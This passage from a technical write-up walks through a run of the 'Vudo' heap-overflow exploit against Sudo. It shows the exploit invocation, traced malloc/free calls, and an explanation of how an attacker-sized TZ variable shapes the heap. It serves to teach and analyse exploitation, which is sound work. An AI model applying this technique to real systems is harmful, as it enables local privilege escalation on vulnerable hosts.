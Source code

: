 How these successive tricks are actually accomplished is presented below
via a complete, successful, and commented run of the Vudo exploit (the
dlmalloc calls traced below were performed by Sudo, and were obtained
via a special shared library stored in /etc/ld.so.preload):

</PRE>
```c
$ ./vudo 0x002531dc 62595 6866
malloc( 9 ): 0x0805e480;
malloc( 7 ): 0x0805e490;
malloc( 6 ): 0x0805e4a0;
malloc( 5 ): 0x0805e4b0;
malloc( 36 ): 0x0805e4c0;
malloc( 18 ): 0x0805e4e8;
malloc( 14 ): 0x0805e500;
malloc( 10 ): 0x0805e518;
malloc( 5 ): 0x0805e528;
malloc( 19 ): 0x0805e538;
malloc( 3 ): 0x0805e550;
malloc( 62596 ): 0x0805e560;
```
<PRE>

This 62596 bytes buffer was allocated by the tzset(3) function (called
by Sudo at the beginning of the init_vars() function) and is a simple
copy of the TZ environment variable, whose size was provided by the
attacker via the second argument passed to the Vudo exploit (62596 is
indeed equal to 62595 plus 1, the size of a terminating NUL character).

The usefulness of such a huge dynamically allocated buffer is detailed
later on, but proved to be essential to the Vudo exploit. For example,
this exploit will never work against the Debian operating system since
the tzset(3) function used by Debian does not read the value of the TZ
environment variable when a SUID or SGID program is run.

</PRE>
```c
malloc( 176 ): 0x0806d9e8;
free( 0x0806d9e8 );
malloc( 17 ): 0x0806d9e8;
malloc( 6 ): 0x0806da00;
malloc( 4096 ): 0x0806da10;
malloc( 6 ): 0x0806ea18;
malloc( 1024 ): 0x0806ea28;
malloc( 176 ): 0x0806ee30;
malloc( 8 ): 0x0806eee8;
malloc( 120 ): 0x0806eef8;
malloc( 15 ): 0x0806ef78;
malloc( 38 ): 0x0806ef90;
malloc( 40 ): 0x0806efc0;
malloc( 36 ): 0x0806eff0;
malloc( 15 ): 0x0806f018;
malloc( 38 ): 0x0806f030;
malloc( 40 ): 0x0806f060;
malloc( 36 ): 0x0806f090;
malloc( 14 ): 0x0806f0b8;
malloc( 38 ): 0x0806f0d0;
malloc( 40 ): 0x0806f100;
malloc( 36 ): 0x0806f130;
malloc( 14 ): 0x0806f158;
malloc( 38 ): 0x0806f170;
malloc( 40 ): 0x0806f1a0;
malloc( 36 ): 0x0806f1d0;
malloc( 36 ): 0x0806f1f8;
malloc( 19 ): 0x0806f220;
malloc( 40 ): 0x0806f238;
```